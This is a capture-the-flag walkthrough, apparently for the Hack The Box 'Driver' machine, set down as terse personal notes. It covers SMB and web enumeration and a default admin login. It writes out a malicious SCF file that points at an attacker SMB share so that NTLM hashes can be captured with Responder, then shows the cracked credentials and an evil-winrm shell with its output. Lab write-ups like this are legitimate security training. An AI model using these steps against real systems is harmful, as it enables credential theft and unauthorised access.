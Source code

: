 https://www.youtube.com/watch?v=N2ahkarb-zI&list=PLidcsTyj9JXL4Jv6u9qi8TcUgsNoKKHNn

## nmap scan

sudo nmap -sC -sV -oA nmap/driver 10.10.11.106

port 80, 135

## smbclient

smbclient -L //10.10.11.106 - default

smbclient -N -L //10.10.11.106 - no password

smbclient -U '' -L //10.10.11.106

smbclient -U '.' -L //10.10.11.106

cme smb 10.10.11.106

# looking at website

admin 
admin

notice - url ends at .php

gobuster dir -u http://10.10.11.10 -U admin -P admin -x php -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -o gobuster.out

# creaitng an scf file

vi attack.scf
```
[Shell]
Command=2
IconFile=10.10.6.12\share\anything_here
[Taskbar]
Command=ToggleDesktop
```

need to use responder.

6.37

using responder.py successfuly got th entlm hashes which were put in hashcat and cracked

after gettting smb credentials login

login using

cme smb -U tony -p liltony

then looking for winrm 
winrm ports are 5985, 5986 etc

so we use smb with winrm

cme winrm 10.10.11.106 -u tony -p liltony

however this worked for me

```
~/Downloads ⌚ 13:58:17
$ crackmapexec smb 10.10.11.106 -u tony -p liltony
SMB         10.10.11.106    445    DRIVER           [*] Windows 10 Enterprise 10240 x64 (name:DRIVER) (domain:DRIVER) (signing:False) (SMBv1:True)
SMB         10.10.11.106    445    DRIVER           [+] DRIVER\tony:liltony 

```

gives you shell :

```
~ ⌚ 14:28:35
$ ./evil-winrm-3.4/evil-winrm.rb -i 10.10.11.106 -u tony -p liltony -s scripts/ -e execs/

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                                                                                                 

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                                                                                                   

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\tony\Documents> 

```

upload winpeas into the system

then we use metasploit to get a shell.





